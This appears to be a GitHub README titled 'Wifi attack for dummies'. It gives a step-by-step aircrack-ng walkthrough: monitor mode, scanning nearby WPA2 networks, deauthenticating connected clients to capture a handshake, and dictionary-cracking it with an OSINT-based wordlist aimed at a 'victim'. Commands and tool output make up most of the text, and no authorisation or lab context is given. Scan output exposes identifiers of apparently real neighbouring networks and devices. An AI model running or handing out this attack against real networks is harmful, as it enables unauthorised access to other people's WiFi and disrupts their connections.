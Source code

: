 # Wifi attack for dummies
## Operating System

Pop-OS

## Antenna Device
https://www.amazon.es/dp/B08BHY92R4?ref_=cm_sw_r_apan_dp_6AH65GXRTTNFR8FV7WQQ&language=es-ES

## Steps to follow

* First, we check if the antenna works. We see that with `ip a` it does not work so we install the drivers:

```
sudo apt install git dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

* Let's check:

```
iw list
``` 
* Tutorial source:

https://blog.programster.org/ubuntu-20-04-install-driver-for-piaek-usb-wifi-adapter

* Let's check again:

```
ip a
``` 

## We are going to install the tool we are going to use

```
sudo apt update
sudo apt install aircrack-ng

```
## Let's put the antenna in monitor mode:

```
airmon-ng check kill

ifconfig wlx0013eff5087d down

or

sudo ip link set wlx0013eff5087d down

sudo iw dev wlx0013eff5087d set type monitor
sudo ip link set wlx0013eff5087d up

sudo airmon-ng start wlx0013eff5087d
```

## Wifi networks with 2.4GHz band

```
sudo airodump-ng wlx0013eff5087d
```

* If I want to connect to both bands: 2.4GHz y 5GHz:

```
sudo airodump-ng --band abg wlx0013eff5087d
```


* The lowest the value of the PWR is, the closest the router is. For example, -60 is closer than -60.
* Let's see different Wifi channels, then I choose the bssid to attack, the channel to attack and then I look for the connected clients.
* There are routers with the same ssid and different channels with the same MAC address.


```
 
 F4:69:42:CC:7B:CF  -20        2        1    0   6  130   WPA2 CCMP   PSK  DAENERYS
 F4:69:42:CC:7B:CE  -27        1        0    0  52 1733   WPA2 CCMP   PSK  DAENERYS_PLUS
 74:9D:79:03:C4:4B  -92        1        0    0   6  130   WPA2 CCMP   PSK  vodafoneC44
 6A:D2:FF:A8:A4:27  -92        0        0    0  11  130   WPA2 CCMP   PSK  vodafoneC44
 60:32:B1:2B:0B:8E  -90        1        0    0   4  130   WPA2 CCMP   PSK  vodafone8AA0_EXT
 60:32:B1:2B:0B:6C  -90        0        0    0  11  130   WPA2 CCMP   PSK  MIWIFI_kYXc_EXT
 A0:18:42:1A:53:42  -90        0        0    0  44 1733   WPA2 CCMP   PSK  MIWIFI_5VEj_5G
 7C:DB:98:A9:CA:E5  -90        1        0    0  60 1733   WPA2 CCMP   PSK  MOVISTAR_PLUS_CAD7
 CC:ED:DC:E2:53:F0  -86        2        0    0   1  270   WPA2 CCMP   PSK  KASAKIE0:19:54:42:A0:03  -70        1        0    0  36 1170   WPA2 CCMP   PSK  MIWIFI_b7NJ
 E0:19:54:42:A0:02  -69        3        0    0   6  195   WPA2 CCMP   PSK  MIWIFI_b7NJ
 74:9D:79:03:C4:4B  -92        1        0    0   6  130   WPA2 CCMP   PSK  vodafoneC44
 6A:D2:FF:A8:A4:27  -92        0        0    0  11  130   WPA2 CCMP   PSK  vodafoneC44
 60:32:B1:2B:0B:8E  -90        1        0    0   4  130   WPA2 CCMP   PSK  vodafone8AA0_EXT
 60:32:B1:2B:0B:6C  -90        0        0    0  11  130   WPA2 CCMP   PSK  MIWIFI_kYXc_EXT
 A0:18:42:1A:53:42  -90        0        0    0  44 1733   WPA2 CCMP   PSK  MIWIFI_5VEj_5G
 7C:DB:98:A9:CA:E5  -90        1        0    0  60 1733   WPA2 CCMP   PSK  MOVISTAR_PLUS_CAD7
 CC:ED:DC:E2:53:F0  -86        2        0    0   1  270   WPA2 CCMP   PSK  KASAKI
```

```
sudo airodump-ng -c 6 --bssid F4:69:42:CC:7B:CF wlx0013eff5087d


sudo airodump-ng -c 6 --bssid F4:69:42:CC:7B:CF -w /home/drakarys/cap/cap_10292023 wlx0013eff5087d


sudo airodump-ng -c 6 --bssid F4:69:42:CC:7B:CF -w /home/drakarys/cap/cap_10292023 wlx00c0caabd8e5 --output-format logcsv,csv,netxml
```

* Various channels:

```
sudo airodump-ng --bssid F4:69:42:CC:7B:CF -w /home/drakarys/cap/cap_10292023 wlx0013eff5087d --output-format logcsv,csv,netxml --band abg -c6,52
```

## Let's see the device:

```

 F4:69:42:CC:7B:CF  3C:61:05:EB:65:E6  -41    0 - 6      0       21
 F4:69:42:CC:7B:CF  D4:A6:51:F1:3A:BE  -57    0 - 1     14     4029
 F4:69:42:CC:7B:CF  10:D5:61:6C:19:3A  -57    0 - 1      0        5
 F4:69:42:CC:7B:CF  C0:C9:E3:4B:9D:35  -49    0 - 1      0        2
 F4:69:42:CC:7B:CF  8C:CE:4E:DB:78:51  -37    0 - 6      0      493

 ```

* We can search the MAC address if the device is interesting:

```
D4:A6:51:F1:3A:BE
```

https://aruljohn.com/mac/10D5616C193A

```
8C:CE:4E:DB:78:51
```

https://aruljohn.com/mac/8CCE4EDB7851

```
3C:61:05:EB:65:E6
```

https://aruljohn.com/mac/3C6105EB65E6

## Deauth

* We open another terminal at te same time the other command is running:
	* -a ap
	* -c client
	* -o deauth + number of packages


```
sudo aireplay-ng -0 1 -a F4:69:42:CC:7B:CF -c D4:A6:51:F1:3A:BE wlx0013eff5087d
sudo aireplay-ng -0 1 -a F4:69:42:CC:7B:CF -c 8C:CE:4E:DB:78:51 wlx0013eff5087d
```
* When de device reconnects, we will have a handshake
* If we have a diccionary based of the victim (OSINT), we'll test.
* There are many types of dicionaries on the internet based on de router type or very known passwords.


```
sudo aircrack-ng -w passwd.txt -b F4:69:42:CC:7B:CF handshake-01.cap
```

https://www.aircrack-ng.org/doku.php?id=deauthentication